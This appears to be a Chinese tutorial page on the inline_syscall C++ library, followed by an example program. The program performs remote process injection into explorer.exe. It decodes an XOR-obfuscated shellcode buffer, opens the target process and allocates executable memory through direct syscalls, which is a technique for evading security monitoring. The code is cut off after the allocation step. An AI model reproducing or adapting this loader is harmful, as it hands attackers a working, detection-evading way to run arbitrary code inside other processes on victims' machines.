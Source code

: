   *   *   *   *   *   *   *   *   *   * 

    
    
    // If you already initialized, inline_syscall.hpp contains all you need.#include "inline_syscall/include/in_memory_init.hpp"  
    // Needs to be called once at startup before INLINE_SYSCALL is used.jm::init_syscalls_list();  
    // Usage of the main macro INLINE_SYSCALLvoid* allocation = nullptr;SIZE_T size      = 0x1000;NTSTATUS status  = INLINE_SYSCALL(NtAllocateVirtualMemory)((HANDLE)-1, &allocation, 0, &size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);

如果使用vs，那么需要把平台工具集改成LLVM (clang-cl)

示例代码：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <Windows.h>#include "lib/in_memory_init.hpp"  
    typedef struct _UNICODE_STRING{  USHORT Length;  USHORT MaximumLength;  PWSTR  Buffer;} UNICODE_STRING, * PUNICODE_STRING;  
    typedef struct _OBJECT_ATTRIBUTES{  ULONG           Length;  HANDLE          RootDirectory;  PUNICODE_STRING ObjectName;  ULONG           Attributes;  PVOID           SecurityDescriptor;  PVOID           SecurityQualityOfService;} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;  
    typedef struct _CLIENT_ID{  HANDLE UniqueProcess;  HANDLE UniqueThread;} CLIENT_ID, * PCLIENT_ID;  
    typedef struct _PS_ATTRIBUTE{  ULONG  Attribute;  SIZE_T Size;  union  {    ULONG Value;    PVOID ValuePtr;  } u1;  PSIZE_T ReturnLength;} PS_ATTRIBUTE, * PPS_ATTRIBUTE;  
    typedef struct _PS_ATTRIBUTE_LIST{  SIZE_T       TotalLength;  PS_ATTRIBUTE Attributes[1];} PS_ATTRIBUTE_LIST, * PPS_ATTRIBUTE_LIST;  
    NTSTATUS NtOpenProcess(OUT PHANDLE ProcessHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes, IN PCLIENT_ID ClientId OPTIONAL);  
    NTSTATUS NtAllocateVirtualMemory(IN HANDLE ProcessHandle, IN OUT PVOID* BaseAddress, IN ULONG ZeroBits, IN OUT PSIZE_T RegionSize, IN ULONG AllocationType, IN ULONG Protect);  
    NTSTATUS NtWriteVirtualMemory(IN HANDLE ProcessHandle, IN PVOID BaseAddress, IN PVOID Buffer, IN SIZE_T NumberOfBytesToWrite, OUT PSIZE_T NumberOfBytesWritten OPTIONAL);  
    NTSTATUS NtCreateThreadEx(OUT PHANDLE ThreadHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN HANDLE ProcessHandle, IN PVOID StartRoutine, IN PVOID Argument OPTIONAL, IN ULONG CreateFlags, IN SIZE_T ZeroBits, IN SIZE_T StackSize, IN SIZE_T MaximumStackSize, IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);  
    NTSTATUS NtClose(IN HANDLE Handle);  
    int main(int argc, char* argv[]){  jm::init_syscalls_list();  
      // PID of explorer.exe  DWORD pid = 4396;  unsigned char shellcode[] = "\x9c\x28\xe1\x84\x90\x9f\x9f\x9f\x88\xb0\x60\x60\x60\x21\x31\x21\x30\x32\x31\x36\x28\x51\xb2\x05\x28\xeb\x32\x00\x5e\x28\xeb\x32\x78\x5e\x28\xeb\x32\x40\x5e\x28\xeb\x12\x30\x5e\x28\x6f\xd7\x2a\x2a\x2d\x51\xa9\x28\x51\xa0\xcc\x5c\x01\x1c\x62\x4c\x40\x21\xa1\xa9\x6d\x21\x61\xa1\x82\x8d\x32\x21\x31\x5e\x28\xeb\x32\x40\x5e\xeb\x22\x5c\x28\x61\xb0\x5e\xeb\xe0\xe8\x60\x60\x60\x28\xe5\xa0\x14\x0f\x28\x61\xb0\x30\x5e\xeb\x28\x78\x5e\x24\xeb\x20\x40\x29\x61\xb0\x83\x3c\x28\x9f\xa9\x5e\x21\xeb\x54\xe8\x28\x61\xb6\x2d\x51\xa9\x28\x51\xa0\xcc\x21\xa1\xa9\x6d\x21\x61\xa1\x58\x80\x15\x91\x5e\x2c\x63\x2c\x44\x68\x25\x59\xb1\x15\xb6\x38\x5e\x24\xeb\x20\x44\x29\x61\xb0\x06\x5e\x21\xeb\x6c\x28\x5e\x24\xeb\x20\x7c\x29\x61\xb0\x5e\x21\xeb\x64\xe8\x28\x61\xb0\x21\x38\x21\x38\x3e\x39\x3a\x21\x38\x21\x39\x21\x3a\x28\xe3\x8c\x40\x21\x32\x9f\x80\x38\x21\x39\x3a\x5e\x28\xeb\x72\x89\x29\x9f\x9f\x9f\x3d\x29\xa7\xa1\x60\x60\x60\x60\x5e\x28\xed\xf5\x7a\x61\x60\x60\x5e\x2c\xed\xe5\x47\x61\x60\x60\x28\x51\xa9\x21\xda\x25\xe3\x36\x67\x9f\xb5\xdb\x80\x7d\x4a\x6a\x21\xda\xc6\xf5\xdd\xfd\x9f\xb5\x28\xe3\xa4\x48\x5c\x66\x1c\x6a\xe0\x9b\x80\x15\x65\xdb\x27\x73\x12\x0f\x0a\x60\x39\x21\xe9\xba\x9f\xb5\x28\x05\x0c\x0c\x0f\x40\x14\x08\x05\x12\x05\x4e\x60\x2d\x05\x13\x13\x01\x07\x05\x22\x0f\x18\x60";  SIZE_T shellcodeSize = sizeof(shellcode);  char key = '`';  for (int i = 0; i < sizeof(shellcode) - 1; i++) {    shellcode[i] = shellcode[i] ^ key;  }  
      HANDLE hProcess;  OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes) };  CLIENT_ID clientId = { (HANDLE)pid, NULL };  #这里使用了远程注入shellcode，并执行的方法  INLINE_SYSCALL(NtOpenProcess)(&hProcess, PROCESS_ALL_ACCESS, &objectAttributes, &clientId);  
      LPVOID baseAddress = NULL;  INLINE_SYSCALL(NtAllocateVirtualMemory)(hProcess, &baseAddress, 0, &shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);  